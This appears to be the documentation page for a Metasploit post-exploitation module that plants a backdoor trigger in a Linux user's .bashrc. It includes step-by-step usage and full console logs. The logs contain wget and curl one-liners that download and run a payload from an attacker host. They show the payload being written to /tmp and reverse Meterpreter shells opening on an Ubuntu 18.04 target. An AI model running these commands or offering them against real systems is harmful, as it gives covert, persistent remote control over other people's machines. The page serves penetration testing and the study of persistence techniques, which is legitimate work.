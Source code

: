 ## Vulnerable Application

This module writes an execution trigger to the target's Bash profile.
The execution trigger executes a call back payload whenever the target
user opens a Bash terminal.

Verified on Ubuntu 22.04 and 18.04 desktop with Gnome

## Verification Steps

1. Start `msfconsole`
2. Get a Meterpreter session
3. `use exploit/linux/local/bash_profile_persistence`
4. `set SESSION [SESSION]`
5. `run`
6. On victim, open a new Bash terminal
7. You should get a new session with the permissions of the exploited user account

## Options

**BASH_PROFILE**

The path to the target Bash profile. Defaults to `.bashrc`

**BACKDOOR_NAME**

Name of the payload file. Defaults to random

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 

[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO O2XZweCh --no-check-certificate http://111.111.1.111:8181/l; chmod +x O2XZweCh; ./O2XZweCh& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > [*] 222.222.2.222    web_delivery - Delivering Payload (250 bytes)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:44878) at 2025-02-06 21:11:39 -0500
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/bash_profile 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/bash_profile) > exploit
[*] Command to run on remote host: curl -so ./QfTygMjF http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./QfTygMjF;./QfTygMjF&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/bash_profile) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bash profile exists: /home/ubuntu/.bashrc
[+] Bash profile is writable: /home/ubuntu/.bashrc
[!] The service is running, but could not be validated. Bash profile exists and is writable: /home/ubuntu/.bashrc
[*] Created backup Bash profile: /root/.msf4/loot/20250206211215_default_222.222.2.222_desktop..bashrc_080965.txt
[*] Writing '/tmp/BfkldKp4' (100 bytes) ...
[*] Created Bash profile persistence
[+] Payload will be triggered when target opens a Bash terminal
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250206.1216/ubuntu18desktop.local_20250206.1216.rc
```
On the remote host open `/bin/bash`

```
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:40990) at 2025-02-06 21:12:21 -0500

[msf](Jobs:2 Agents:2) exploit(linux/persistence/bash_profile) > sessions -i 2
[*] Starting interaction with 2...

(Meterpreter 2)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 2)(/tmp) > 
```
